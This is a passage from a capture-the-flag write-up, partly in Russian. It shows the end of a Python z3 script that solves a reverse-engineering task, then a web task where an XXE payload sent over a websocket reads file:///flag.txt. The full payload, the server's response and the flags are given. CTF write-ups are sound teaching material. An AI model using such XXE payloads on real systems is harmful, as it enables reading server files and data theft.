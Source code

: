 ```python=
s.add(s0 == t1)

t1 ^= t6
s0 = 0x6242 << 16
s0 |= 0x6226
s.add(s0 == t1)

t1 &= t7
s0 = 0x2040 << 16
s0 |= 0x6024

s.add(s0 == t1)
# s.add(t4!=1599432793)
# s.add(t1==int.from_bytes(b'{otn', 'little'))
while True:
    s.check()
    m = s.model()
    # print(m)
    vr = sorted([(d, int(str(m[d])).to_bytes(4, 'little')) for d in m], key=lambda x: str(x[0]))
    # print(vr)
    s.add(t7 != int.from_bytes(vr[-1][1], 'little'))
    bbb = b''
    for v in vr:
        bbb += v[1]
    # print(bbb)
    print(trans(bbb))
```
**FLAG:nto{Wh0_54id_Th1s_1S_M3d1um}**
## Web-10
Приложение общается по вебсокету с бэкендом. Внимание привлекает параметр format. Изменив его на xml, замечаем, что парсинг data происходит по другому, уже не как json, а как xml. Пытаемся закинуть XXE:
```
encrypt(`{"format":"xml","data":"<?xml version=\\"1.0\\" encoding=\\"UTF-8\\" ?><!DOCTYPE netspi [<!ENTITY xxe SYSTEM \\"file:///flag.txt\\" >]><root><format>xml</format><data><countries>CPV</countries><startdate>0111-11-11</startdate><enddate>0011-11-11</enddate><resttype>&xxe;</resttype></data></root>"}`)
```
decrypted response c флагом:
```
'{"format":"xml","data":"<?xml version=\\"1.0\\" encoding=\\"UTF-8\\"?>\\n<!DOCTYPE netspi [\\n<!ENTITY xxe SYSTEM \\"file:///flag.txt\\">\\n]>\\n<root>\\n  <format>xml</format>\\n  <data>\\n    <countries>CPV</countries>\\n    <startdate>0111-11-11</startdate>\\n    <enddate>0011-11-11</enddate>\\n    <resttype>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\\n</resttype>\\n    <price>NaN</price>\\n  </data>\\n</root>\\n"}'
```
**FLAG: nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}**

## Web-20

